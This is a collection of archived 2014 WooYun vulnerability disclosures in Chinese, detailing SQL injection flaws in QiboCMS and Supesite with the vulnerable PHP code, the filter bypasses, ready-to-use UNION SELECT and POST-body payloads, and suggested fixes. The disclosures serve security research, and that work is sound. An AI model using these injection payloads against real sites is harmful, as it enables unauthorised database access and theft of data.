if(!preg_match('/^(([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\.){3}([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])$/', front::ip())&&!preg_match('@^\s*((([0-9A-Fa-f]{1,4}:){7}(([0-9A-Fa-f]{1,4})|:))|(([0-9A-Fa-f]{1,4}:){6}(:|((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})|(:[0-9A-Fa-f]{1,4})))|(([0-9A-Fa-f]{1,4}:){5}((:((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})?)|((:[0-9A-Fa-f]{1,4}){1,2})))|(([0-9A-Fa-f]{1,4}:){4}(:[0-9A-Fa-f]{1,4}){0,1}((:((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})?)|((:[0-9A-Fa-f]{1,4}){1,2})))|(([0-9A-Fa-f]{1,4}:){3}(:[0-9A-Fa-f]{1,4}){0,2}((:((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})?)|((:[0-9A-Fa-f]{1,4}){1,2})))|(([0-9A-Fa-f]{1,4}:){2}(:[0-9A-Fa-f]{1,4}){0,3}((:((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})?)|((:[0-9A-Fa-f]{1,4}){1,2})))|(([0-9A-Fa-f]{1,4}:)(:[0-9A-Fa-f]{1,4}){0,4}((:((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})?)|((:[0-9A-Fa-f]{1,4}){1,2})))|(:(:[0-9A-Fa-f]{1,4}){0,5}((:((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})?)|((:[0-9A-Fa-f]{1,4}){1,2})))|(((25[0-5]|2[0-4]\d|[01]?\d{1,2})(\.(25[0-5]|2[0-4]\d|[01]?\d{1,2})){3})))(%.+)?\s*$@', front::ip())){ //这位置写得太复杂了，好像很强大，我看到了(%.+)?，呃，%'不过可以注入引号了？

                    exit('来源非法');

                } 
```

而本程序的 ip 获取是有 X-Forwarded-For 代理 ip 的

测试了下程序，用户注册，游客投稿等都能注入，看漏洞证明截图

## 漏洞证明

1\. 用户注册注入 X-Forwarded-For


2\. 登录看结果吧


## 修复方案

在入库时统一 addslashes 最佳

# WooYun-2014-65837：qibocms 黄页系统 SQL 注入一枚

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-065837`](http://www.wooyun.org/bugs/wooyun-2014-065837)

## 简要描述

过滤不严。

## 详细说明

[`**.**.**.**/down2.php?v=hy1.0#down`](http://**.**.**.**/down2.php?v=hy1.0#down)

这里下载地址 刚下载的。

在 hy/choose_pic.php 中

```php
if($action=='upload'){

    if(is_uploaded_file($_FILES[postfile][tmp_name])){

        $array[name]=is_array($postfile)?$_FILES[postfile][name]:$postfile_name;

        $title=$title?$title:$array[name];

        $myname_str=explode(".",strtolower($array[name]));

        $myname=$myname_str[(count($myname_str)-1)];

        if(!in_array($myname,array('gif','jpg'))) $msg="{$array[name]}图片只能是 gif 或者 jpg 的格式";        

        $array[path]="$webdb[updir]/homepage/pic/".ceil($lfjuid/1000)."/$lfjuid";    //商家图片另存

        $array[size]=is_array($postfile)?$_FILES[postfile][size]:$postfile_size;

        $webdb[company_uploadsize_max]=$webdb[company_uploadsize_max]?$webdb[company_uploadsize_max]:100;

        //if($array[size]>$webdb[company_uploadsize_max]*1024)    $msg="{$array[name]}图片超过最大{$webdb[company_uploadsize_max]}K 限制";

        if($msg==''){

            $picurl=upfile(is_array($postfile)?$_FILES[postfile][tmp_name]:$postfile,$array);

            if($picurl){

                    $Newpicpath=ROOT_PATH."$array[path]/{$picurl}.gif";

                    gdpic(ROOT_PATH."$array[path]/$picurl",$Newpicpath,120,120);

                    if(!file_exists($Newpicpath)){

                        copy(ROOT_PATH."$array[path]/{$picurl}",$Newpicpath);

                    }

                    //$msg="{$array[name]}上传成功";

                    $picurl="homepage/pic/".ceil($lfjuid/1000)."/$lfjuid/$picurl";

                    $title=get_word($title,32);

                    $db->query("INSERT INTO `{$_pre}pic` ( `pid` , `psid` , `uid` , `username` ,  `title` , `url` , `level` , `yz` , `posttime` , `isfm` , `orderlist`  ) VALUES ('', '$psid', '$lfjuid', '$lfjid', '$title', '$picurl', '0', '{$webdb[auto_userpostpic]}', '$timestamp', '0', '0');"); 
```

可以看到$title=get_word($title,32); 看看 title 哪里来的

$title=$title?$title:$array[name]; 如果没定义$title 的话就是直接用上传时候文件的名字做的 $_FILES 的 然后就无视转义了。

然后就带入到了 insert 当中。

## 漏洞证明


报错了 构造一下语句。


这里限制了后缀必须为 jpg 之类的 所以在文件名的后面还是需要加一个这个。


直接查看源码得到数据。

## 修复方案

# WooYun-2014-79041：Supesite 前台注入 #2 (Insert)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-079041`](http://www.wooyun.org/bugs/wooyun-2014-079041)

## 简要描述

Insert 无视 GPC 装 supesite 会有 ucenter 如果在一个裤的话 可以尝试把 uckey 注入出来 然后……

## 详细说明

来看看全局文件

```php
if(!(get_magic_quotes_gpc())) {

    $_GET = saddslashes($_GET);

    $_POST = saddslashes($_POST);

    $_COOKIE = saddslashes($_COOKIE);

} 
```

判断 gpc 是否开启 如果没有开启 就对 get post cookie 转义

这里没有对 files 转义。

* * *

在 batch.upload.php 中

```php
elseif (!empty($_POST)) { //如果 POST 不为空

    //编辑标题

    if(!empty($_GET['editaid']) && $editaid = intval($_GET['editaid'])) {

        $editsubject = cutstr(trim(shtmlspecialchars($_POST['editsubject'])), 50);

        updatetable('attachments', array('subject'=>$editsubject), array('aid'=>$editaid));

        print <<<END

        <script language="javascript">

        var div = parent.document.getElementById("div_upload_" + $editaid);

        var pf = parent.document.getElementById("phpframe");

        pf.src = "about:blank";

        div.innerHTML = "$editsubject";

        </script>

END;

        exit;

    }

    //上传文件

    //上传模式

    $mode = intval(postget('mode')); 

    if($mode>3) exit; //mode 直接让他为空

    $hash = trim(preg_replace("/[^a-z0-9\-\_]/i", '', trim($_POST['hash'])));

    if(strlen($hash) != 16) showresult($blang['unable_to_complete_this_craft']);//这里只判断 hash 的长度为不为 16 没有进一步的验证 那么就让 hash 为 1111111111111111

    //个数

    $filecount = 1;

    $query = $_SGLOBAL['db']->query('SELECT COUNT(*) FROM '.tname('attachments').' WHERE hash=\''.$hash.'\'');

    $count = $_SGLOBAL['db']->result($query, 0);

    $allowmax = intval($_POST['uploadallowmax']);

    if($allowmax > 0 && $count + $filecount > $allowmax) showresult($blang['the_number_has_reached_maximum']);

    //类型

    $allowtypearr = getallowtype(trim($_POST['uploadallowtype']));//取得上传的类型

    //空间

    $attachsize = 0;

    include_once(S_ROOT.'./function/upload.func.php');

    if(empty($mode)) { //让$mode 为空即可

        //本地上传

        //检查

        $filearr = $_FILES['localfile'];//获取 files

        if(empty($filearr['size']) || empty($filearr['tmp_name'])) showresult($blang['failure_to_obtain_upload_file_size']);

        $fileext = fileext($filearr['name']);//获取后缀

        if(!empty($allowtypearr)) {

            if(empty($allowtypearr[$fileext])) showresult($blang['upload_not_allow_this_type_of_resources']." ($allowtype_ext)");

            if($filearr['size'] > $allowtypearr[$fileext]['maxsize']) showresult($blang['file_size_exceeded_the_permissible_scope']);

        }

        //缩略图

        if(!empty($_POST['uploadthumb0']) && !empty($_SCONFIG['thumbarray'][$_POST['uploadthumb0']])) {

            $thumbarr = $_SCONFIG['thumbarray'][$_POST['uploadthumb0']];

        } else {

            $thumbarr = array($_POST['thumbwidth'], $_POST['thumbheight']);

        }

        //上传

        $newfilearr = savelocalfile($filearr, $thumbarr);

        if(empty($newfilearr['file'])) showresult($blang['uploading_files_failure']);

        //数据库

        if(empty($_POST['uploadsubject0'])) $_POST['uploadsubject0'] = cutstr(filemain($filearr['name']), 50);

//下面就带入到 insert 当中啦

        $insertsqlarr = array(

            'uid' => $uid,

            'dateline' => $_SGLOBAL['timestamp'],

            'filename' => saddslashes($filearr['name']),//对文件的名字转义

            'subject' => trim(shtmlspecialchars($_POST['uploadsubject0'])),

            'attachtype' => $fileext,//这里没有对文件的后缀转义

            'isimage' => (in_array($fileext, array('jpg','jpeg','gif','png'))?1:0),

            'size' => $filearr['size'],

            'filepath' => $newfilearr['file'],

            'thumbpath' => $newfilearr['thumb'],

            'hash' => $hash

        );

        inserttable('attachments', $insertsqlarr)//insert; 
```

'filename' => saddslashes($filearr['name']) 在查询的时候名字被转义了

'attachtype' => $fileext 来看一下$fileext

$fileext = fileext($filearr['name']);

```php
function fileext($filename) {

    return strtolower(trim(substr(strrchr($filename, '.'), 1)));

} 
```

获取点以后的 没做转义 所以可以在后缀这进行注入了。


可以看到 名字被转义 后缀那成功引入单引号


出数据

## 漏洞证明


## 修复方案

转义之

# WooYun-2014-80867：qibocms 地方门户系统注入一个问题(demo 测试)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-080867`](http://www.wooyun.org/bugs/wooyun-2014-080867)

## 简要描述

一周 4 个小时的假期也够苦的。 life5.qibosoft.com 听说一般应用。 注入 && 另外一个问题。

## 详细说明

```php
if(ereg("^([-_0-9a-zA-Z]+)$",$_GET[jobs])){

    //不读数据库

    if(is_file(dirname(__FILE__)."/../inc/job/$_GET[jobs].php")){

        include(dirname(__FILE__)."/../inc/job/$_GET[jobs].php");

    }

}elseif(ereg("^([-_0-9a-zA-Z]+)$",$_GET['job'])||ereg("^([-_0-9a-zA-Z]+)$",$_POST['job'])){

    //读数据库

    require(dirname(__FILE__)."/"."global.php");

    if(ereg("^([-_0-9a-zA-Z]+)$",$job)&&is_file(ROOT_PATH."inc/job/$job.php")){

        include(ROOT_PATH."inc/job/$job.php");

    }

} 
```

包含文件进来。

inc/job/ckreg.php 中

```php
}elseif($type=='yzimg'){

    if($db->get_one("SELECT * FROM {$pre}yzimg WHERE $SQL imgnum='$name' AND sid='$usr_sid'")){

        die(" <font color=red>验证码输入正确!</font>");

    }else{

        die("请输入正确的验证码"); 

    } 
```

这里的$SQL 并没有初始化, 结合 qibocms 的全局机制 可以直接控制这个变量 导致注入。


demo 测试:

[`**.**.**.**/do/job.php?job=ckreg&type=yzimg&SQL=1=1`](http://**.**.**.**/do/job.php?job=ckreg&type=yzimg&SQL=1=1) union select 1%23

数据库连接出错:SELECT * FROM life5_yzimg WHERE 1=1 union select 1# imgnum='' AND sid='1wmqh6ce'

The used SELECT statements have a different number of columns

1222 请输入正确的验证码

* * *

第二个问题

在 wei/member/post.php 中

```php
elseif($action=="del")

{

    $rsdb=$db->get_one("SELECT B.*,A.* FROM `{$_pre}content` A LEFT JOIN `{$_pre}content_1` B ON A.id=B.id WHERE A.id='$id'");

    if($rsdb[fid]!=$fidDB[fid]){    

        showerr("栏目有问题");

    }

    if($rsdb[uid]!=$lfjuid&&!$web_admin)

    {

        showerr("你无权操作");

    }

    $db->query("DELETE FROM `{$_pre}content` WHERE id='$id' ");

    $db->query("DELETE FROM `{$_pre}content_1` WHERE id='$id' ");

    $db->query("DELETE FROM `{$_pre}comments` WHERE id='$id' ");

    keyword_del($id,$rsdb['keywords']); 
```

keyword_del($id,$rsdb['keywords']);

这里是出库来的 所以能引入转义符啥的。

```php
function keyword_del($id,$keyword){

    global $db,$_pre;

    if(!$keyword){

        return ;

    }

    $detail2=explode(" ",$keyword);

    foreach( $detail2 AS $key=>$value){

        if($value){

            $db->query("UPDATE `{$_pre}keyword` SET num=num-1 WHERE BINARY `keywords`='$value'");

            $_rs=$db->get_one("SELECT kid,num FROM `{$_pre}keyword` WHERE BINARY `keywords`='$value'");

            if($_rs[num]<1){

                $db->query("DELETE FROM `{$_pre}keyword` WHERE BINARY `keywords`='$value'");    

            }

            $kid=$_rs[kid];

            $db->query("DELETE FROM `{$_pre}keywordid` WHERE `kid`='$kid' AND id='$id'"); 
```

可以看到 出库的没过滤 再一次带入到查询当中


首先 关键字中写一些特殊字符 然后入库


然后修改。

在点击确认。


出库 造成注入。

## 漏洞证明


## 修复方案

第一个初始化一下

第二个 出库转义。

# WooYun-2014-80870：qibocms 地方门户系统注入（多处类似,demo 测试)

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-080870`](http://www.wooyun.org/bugs/wooyun-2014-080870)

## 简要描述

初始化啊 初始化。

## 详细说明

很多类似的 随便找个地方把。

首先注册个会员。

在 dianping/post.php 中

```php
if($action=="postnew")

{  

    if($webdb[ForbidPostMore]){

        if($db->get_one("SELECT * FROM {$_pre}content WHERE uid='$lfjuid' LIMIT 1")){

            showerr("系统设置每人只能发布一个商铺!");

        }

    }

    if(!check_rand_num($_POST["$webdb[rand_num_inputname]"])){

        showerr("系统随机码失效,请返回,刷新一下页面,再重新输入数据,重新提交!");

    }

    if(!$postdb[city_id]){

        showerr("请选择城市");

    }

    /*验证码处理*/

    if($webdb[Info_GroupPostYzImg]&&in_array($groupdb['gid'],explode(",",$webdb[Info_GroupPostYzImg]))){    

        if(!$web_admin&&!check_imgnum($yzimg)){        

            showerr("验证码不符合,发布失败");

        }

    }

    $postdb['list']=$timestamp;

    if($iftop){        //推荐置顶

        @extract($db->get_one("SELECT COUNT(*) AS NUM FROM `{$_pre}content$_erp` WHERE list>'$timestamp' AND fid='$fid' AND city_id='$postdb[city_id]'")); 
```

让哥来发布个点评。

@extract($db->get_one("SELECT COUNT(*) AS NUM FROM `{$_pre}content$_erp` WHERE list>'$timestamp' AND fid='$fid' AND city_id='$postdb[city_id]'"))

来看看这个语句。 {$_pre}content$_erp 来看看这个文件中的$_erp 哪里来的


可以看到 我们的这个语句位于 173 行。

而对$_erp 赋值是在 187 行。 那么相当于我们 173 行的这个$_erp 就没有初始化了。

结合 qibocms 伪全局机制 那么我们就可以控制 173 行的这个$_erp 来达到注入的效果。

dianping/post.php?action=postnew&fid=11&postdb[address]=xx&postdb[city_id]=x&_erp=aaa&iftop=1&yzimg=a1df


构造一下


成功出数据。

* * *

测试 demo。


嗯。

## 漏洞证明


## 修复方案

把 $_erp=$Fid_db[tableid][$fid]; 放在前面。

# WooYun-2014-79938：齐博地方门户系统 SQL 注入漏洞(无需登录可批量)

漏洞作者： [phith0n](http://www.wooyun.org/whitehats/phith0n)

来源：[`www.wooyun.org/bugs/wooyun-2014-079938`](http://www.wooyun.org/bugs/wooyun-2014-079938)

## 简要描述

我发现齐博在一般应用列表里呢，好期待~ 齐博地方门户无源码，测试可以上官网的演示站：[`life.qibosoft.com`](http://life.qibosoft.com) 进行测试。

## 详细说明

问题出在齐博搜索的位置，也就是：[`**.**.**.**/coupon/s.php`](http://**.**.**.**/coupon/s.php)

```php
if($action=="search"){

    if(!$webdb[Info_allowGuesSearch]&&!$lfjid){

        //showerr("请先登录");

    }

    $keyword=trim($keyword);

    $keyword=str_replace("%",'\%',$keyword);

    $keyword=str_replace("_",'\_',$keyword);

    if(!$keyword){

        showerr('关键字不能为空!');

    }

    $rows=10;

    if(!$page){

        $page=1;

    }

    $min=($page-1)*$rows;

    $type = ($type=='username') ? $type : "title";

    if($fid){

        $querys = $db->query("SELECT fid FROM {$_pre}sort WHERE `fup`='$fid'");

        while($rs = $db->fetch_array($querys)){

            $fids[]=$rs[fid];

        }

        $fids=implode(",",$fids);

        if($fids){

            $sql_fid = " AND `fid` IN($fids) ";

        }else{

            $sql_fid = " AND `fid`='$fid' ";

        }

    }else{

        $sql_fid = "";

    } 
```

代码如上，这个注入之所以不需要登录。。。是因为源码里把 showerr("请先登录");注释掉 了，不知道为何。

继续往下看，看到这个 while 语句：

while($rs = $db->fetch_array($querys)){

$fids[]=$rs[fid];

}

查询出来 fid，将$fid 放进$fids 数组中。之后用 implode 将$fids 数组变成字符串，放进 IN 子句中，IN 子句并没有单引号限制。

看起来没问题，因为$fids 是$rs[fid]组成的数组。但这里很重要的是，了解齐博的都知道，齐博在 inc/common.inc.php 中有这样一段：

```php
foreach($_COOKIE AS $_key=>$_value){

    unset($$_key);

}

foreach($_POST AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_POST[$_key];

}

foreach($_GET AS $_key=>$_value){

    !ereg("^\_[A-Z]+",$_key) && $$_key=$_GET[$_key];

} 
```

等于说将$_GET/$_POST/$_COOKIE 注册成全局变量了。所以$fids 的初值我们是可以控制的，这个 while 语句前也没有清除$fids，只是往这个数组里加$fid。

最后导致了注入。

我们可以看看演示站：

```php
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]='&fids[]=xx

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0) union select user(),2,3,4,5,6,7,8,9%23 
```

## 漏洞证明

```php
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0) union select user(),2,3,4,5,6,7,8,9%23 
```


这个洞利用简单，无需登录，可以批量。

```php
http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**//coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23

http://**.**.**.**/coupon/s.php?action=search&keyword=11&fid=1&fids[]=0)%20union%20select%20user(),2,3,4,5,6,7,8,9%23 
```

……还有太多，不列了，默默笑了，这种拿去做*产最好了，可惜我是个正直的人~

## 修复方案

unset($fids);之后再进入 while 循环。

# WooYun-2014-80259：齐博整站/地方门户 SQL 注入漏洞

漏洞作者： [phith0n](http://www.wooyun.org/whitehats/phith0n)

来源：[`www.wooyun.org/bugs/wooyun-2014-080259`](http://www.wooyun.org/bugs/wooyun-2014-080259)

## 简要描述

继 [`wooyun.org/bugs/wooyun-2014-079938`](http://wooyun.org/bugs/wooyun-2014-079938) 后第二发，依旧是直接注入非盲注，绝不鸡肋。 看看乌云的奖励怎么样，好的话还有第三发。

## 详细说明

一个比较有意思的点，因为安全策略造成的注入。

就拿齐博整站系统为例。

看到/member/userinfo.php，112 到 114 行：

```php
//过滤不健康的字

$truename=replace_bad_word($truename);

$introduce=replace_bad_word($introduce);

$address=replace_bad_word($address); 
```

这几句过滤代码，意思是想过滤一些“不和谐”的词语。那我们看看这个 replace_bad_word 函数。

```php
function replace_bad_word($str){

    global $Limitword;

    @include_once(ROOT_PATH."data/limitword.php");

    foreach( $Limitword AS $old=>$new){

        strlen($old)>2 && $str=str_replace($old,trim($new),$str);

    }

    return $str;

} 
```

实际上是一个 str_replace，将旧的“不和谐”词语替换成新的“和谐”词语。那么替换列表从哪来？看看 data/limitword.php：

```php
<?php 

$Limitword['造反']='造**';

$Limitword['法轮功']='法**功'; 
```

就这两个，$Limitword 并没有初值。而且 include 之前有 global $Limitword。齐博 cms 是将 GET 和 POST 变量注册成全局变量了，所以 global 取到的可以是$_POST[Limitword]或$_GET[Limitword]。也就是说$Limitword 是我们可以控制的。

也就是说，我们可以控制 str_replace 函数的三个参数。不知道还有没有人记得 ecshop 曾经的一个注入漏洞（[`**.**.**.**/content/2700），原理相同，我再说一遍。`](http://**.**.**.**/content/2700），原理相同，我再说一遍。)

某变量$str 全局做过转义，导致%00 转义成了\0.我们能够控制 str_replace 的前两个参数，则 str_replace('0', '', $str)，再将 0 转换成空，则留下了\，这个\可以转义其后的\’，使之变成\’，导致单引号逃逸出转义符的限制，造成注入。

这里的原理是一样的，只不过齐博 cms 之前对一些变量做了过滤：

```php
$truename=filtrate($truename);

$idcard=filtrate($idcard);

$telephone=filtrate($telephone);

$address=filtrate($address);

$introduce=filtrate($introduce);

$homepage=filtrate($homepage);

function filtrate($msg){

    //$msg = str_replace('&','&amp;',$msg);

    //$msg = str_replace(' ','&nbsp;',$msg);

    $msg = str_replace('"','&quot;',$msg);

    $msg = str_replace("'",'&#39;',$msg);

    $msg = str_replace("<","&lt;",$msg);

    $msg = str_replace(">","&gt;",$msg);

    $msg = str_replace("\t","   &nbsp;  &nbsp;",$msg);

    //$msg = str_replace("\r","",$msg);

    $msg = str_replace("   "," &nbsp; ",$msg);

    return $msg;

} 
```

将’等敏感字符过滤了。就算有一个\可以转义一个'，但是这里连'都引入不了。

没关系，这个文件是更新用户信息用的，执行的语句类似 update table set a='111',b='222' where uid=1，我们引入一个\在 111 的最后，转义掉 111 后面的引号，这样 222 就逃逸出了限制，我们的 sql 注入语句就可以放在 222 的位置执行了。这个和之前 discuz7.2 的 faq.php 那个注入类似：[`**.**.**.**/bugs/wooyun-2014-066095`](http://**.**.**.**/bugs/wooyun-2014-066095)

所以，完美构造了一个 SQL 注入。

## 漏洞证明

先注册一个用户：


记下自己的 uid，以便一会更新数据：


可以先测试一下是否存在注入：


报错了，说明注入是存在的。

简单构造一下，向[`localhost/qibov7/member/userinfo.php?job=edit&step=2 发送数据包：`](http://localhost/qibov7/member/userinfo.php?job=edit&step=2 发送数据包：)

truename=xxxx%0000&Limitword[000]=&email=123@**.**.**.**&provinceid=,address=(select user()) where uid=38%23


将 address 注入成为 user()。Where 后面加上 uid=2，防止把其他人的 address 也注入了。

查看个人注入的地址，即可见注入获得的结果：


这个洞是通杀齐博所有系统的，经测试齐博整站系统、齐博地方门户都可以中招，没试其他一些系统了，我估计很多都得中招。

## 修复方案

过滤，转义。

# WooYun-2014-69746：qibocms V7 整站系统最新版 SQL 注入一枚 & 另外一处能引入转义符的地方。

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-069746`](http://www.wooyun.org/bugs/wooyun-2014-069746)

## 简要描述

好久没看过 qibo 的了。 高三累成狗, 补课生活终于快要结束了。

## 详细说明

首先来看一下全局文件

```php
$_POST=Add_S($_POST);

$_GET=Add_S($_GET);

$_COOKIE=Add_S($_COOKIE); 
```

```php
function Add_S($array){

    foreach($array as $key=>$value){

        if(!is_array($value)){

            $value=str_replace("&#x","& # x",$value);    //过滤一些不安全字符

            $value=preg_replace("/eval/i","eva l",$value);    //过滤不安全函数

            !get_magic_quotes_gpc() && $value=addslashes($value);

            $array[$key]=$value;

        }else{

            $array[$key]=Add_S($array[$key]); 

        }

    }

    return $array; 
```

看这函数对数组中的 value 进行了 addslashes 没有对数组中的 key 进行 addslashes。

在 member/post.php 中

```php
if($lfjid)

{

    if($web_admin||$lfjuid==$rsdb[uid]){

        $atc_power=1;

    }

} 
```

这里判断了一下权限 如果是管理员的话就让这变量为 1 当然我们是注册不到管理员的

看后面的 如果你的 id 是和这个发布文章的 id 是一样的 那么这个变量也会成 1

也是有权限的 所以。。

```php
elseif($job=='manage')

{

    if(!$atc_power)showerr("你没权限");

    if($rsdb[pages]<2){

        header("location:post.php?job=edit&aid=$aid&mid=$mid&only=$only");exit;

    }

    $erp=get_id_table($aid);

    if($step==2){

        asort($orderDB);

        $i=0;

        foreach( $orderDB AS $key=>$value){

            $i++;

            $db->query("UPDATE {$pre}reply$erp SET orderid=$i WHERE aid='$aid' AND rid='$key'");

        } 
```

这里$orderDB 结合 qibo 的伪全局可以直接控制

然后把数组中的 key 直接带入到了查询当中 结合上面说的 数组中的 key 不会被转义

所以造成了注入。

* * *

0x02 能引入转义符的地方。

/inc/artic_function.php 中

```php
/*修改软件*/

function post_edit(){

    global $db,$_pre,$postdb,$fid,$fidDB,$Fid_db,$lfjuid,$rsdb,$lfjdb,$webdb,$timestamp,$aid,$FROMURL,$groupdb,$web_admin,$fu_fiddb;

    if( $rsdb[levels]&&$postdb[levels] )

    {

        $postdb[levels]=$rsdb[levels];    //处理其他级别 2,3,4...以防出错

    }

    if($postdb[top]) 
```

省略一点

```php
if($rsdb[keywords]!=$postdb[keywords]){

        keyword_del($aid,$rsdb[keywords]);

        keyword_add($aid,$postdb[keywords],$lfjdb[uid]);

    } 
```

```php
function keyword_del($aid,$keyword){

    global $db,$_pre;

    if(!$keyword){

        return ;

    }

    $detail2=explode(" ",$keyword);

    foreach( $detail2 AS $key=>$value){

        if($value){

            $db->query("UPDATE `{$_pre}keyword` SET num=num-1 WHERE `keywords`='$value'");

            $_rs=$db->get_one("SELECT * FROM `{$_pre}keyword` WHERE `keywords`='$value'");

            $id=$_rs[id];

            $db->query("DELETE FROM `{$_pre}keywordid` WHERE `id`='$id' AND aid='$aid'");        

        }

    }

} 
```

keyword_del($aid,$rsdb[keywords]);

这里进入查询的时候是用的是出库来的 所以能引入转义符。

## 漏洞证明

首先注册一个会员


然后选择一个栏目投稿。


发布成功后 因为这里判断了

```php
if($rsdb[pages]<2){

        header("location:post.php?job=edit&aid=$aid&mid=$mid&only=$only");exit; 
```

就是说页数不能只有一页 所以我们得点 [续发本主题] 再增加一页。


两页了。

然后这里可以直接看到 id 为 668.


修改 key 为注入语句 成功注入。

* * *

0x02 引入转义符

首先注册一个会员 然后发布一个文章 这样写


关键字这样写 发完后 然后编辑一下


引入了转义符 成功报错了。

## 修复方案

转义一下。

```php
foreach( $orderDB AS $key=>$value){

            $i++;

                        $key=addslashes($key);

            $db->query("UPDATE {$pre}reply$erp SET orderid=$i WHERE aid='$aid' AND rid='$key'");

        } 
```

第二个

$keyword=addslashes($keyword);

# WooYun-2014-70353：qibocms 多个系统绕过补丁继续注入 2

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-070353`](http://www.wooyun.org/bugs/wooyun-2014-070353)

## 简要描述

之前发了补丁被绕过了, 现在又发布了补丁。 今天上午的时候看了看补丁。 第一眼觉得很牛逼。 然后觉得这补丁很吊,就放下了。 下午的时候又继续看了看补丁 原来还是可以绕过。

依旧是通杀多个系统。

由于是通用的函数, 所以能造成注入的点不止一处。

用 v7 整站系统 再随便找一个点来说就行啦。

## 详细说明

再来看看一下 qibocms 的全局过滤函数

```php
$_POST=Add_S($_POST);

$_GET=Add_S($_GET);

$_COOKIE=Add_S($_COOKIE); 
```

```php
function Add_S($array){

    foreach($array as $key=>$value){

        if(!is_array($value)){

            @eregi("['\\\"&]+",$key) && die('ERROR KEY!');

            $value=str_replace("&#x","& # x",$value);    //过滤一些不安全字符

            $value=preg_replace("/eval/i","eva l",$value);    //过滤不安全函数

            !get_magic_quotes_gpc() && $value=addslashes($value);

            $array[$key]=$value;

        }else{

            $array[$key]=Add_S($array[$key]); 

        }

    }

    return $array;

} 
```

这里把数组中的 value addslashes 转义了

但是没有对 key addslashes (这里应该也不能做 addslashes 因为会像上次那样绕过)

可以看到是把过滤 key 的代码换了 之前是 replace 可以绕过

现在是 @eregi("['\\"&]+",$key) && die('ERROR KEY!');

我擦, 看起来很叼的样子。 匹配到' 或者 " 或者\ 就直接退出。

当我第一眼看到的时候 觉得很叼 就放下了 qibo。 睡觉去了。

* * *

到了下午 精神倍棒

依旧 我们自己来写一个文件测试一下

再调用一下 qibo 的这函数

```php
<?php  

$_GET=Add_S($_GET[a]);

function Add_S($array){

    foreach($array as $key=>$value){

        if(!is_array($value)){

            @eregi("['\\\"&]+",$key) && die('ERROR KEY!');

            $value=str_replace("&#x","& # x",$value);    //过滤一些不安全字符

            $value=preg_replace("/eval/i","eva l",$value);    //过滤不安全函数

            !get_magic_quotes_gpc() && $value=addslashes($value);

            $array[$key]=$value;

        }else{

            $array[$key]=Add_S($array[$key]); 

        }

    }

    return $array;

} 
```


碉堡 key 中的单引号被匹配到了 被退出了

但是换一种方式呢 这里我输出一下$key


可以看到提交**.**.**.**/yu.php?a[a'][asd]=a 的时候 那么进入过滤函数的时候的 key 是 asd

那么就不会被匹配到 就不会被过滤了。

那么我们不就是绕过了这个过滤了?

* * *

绕过了这个随便找个点来说

在 member/post.php 中

```php
elseif($job=='manage')

{

    if(!$atc_power)showerr("你没权限");

    if($rsdb[pages]<2){

        header("location:post.php?job=edit&aid=$aid&mid=$mid&only=$only");exit;

    }

    $erp=get_id_table($aid);

    if($step==2){

        asort($orderDB);

        $i=0;

        foreach( $orderDB AS $key=>$value){

            $i++;

            $db->query("UPDATE {$pre}reply$erp SET orderid=$i WHERE aid='$aid' AND rid='$key'");

        }

        refreshto("$FROMURL","排序成功",1);

    } 
```

foreach 出来的 key 没有过滤 直接带入到了查询当中


直接提交 key 被匹配出 像刚才那样绕过一下


这样进行检测的 key 是 asd 但是 带入查询的 而是那段含单引号的 key。

造成了注入。

## 漏洞证明


## 修复方案

这个我真心也不知道怎么过滤了。。

还是看你们把。

# WooYun-2014-70366：qibocms 全部开源系统 Getshell

漏洞作者： [′雨。](http://www.wooyun.org/whitehats/′雨。)

来源：[`www.wooyun.org/bugs/wooyun-2014-070366`](http://www.wooyun.org/bugs/wooyun-2014-070366)

## 简要描述

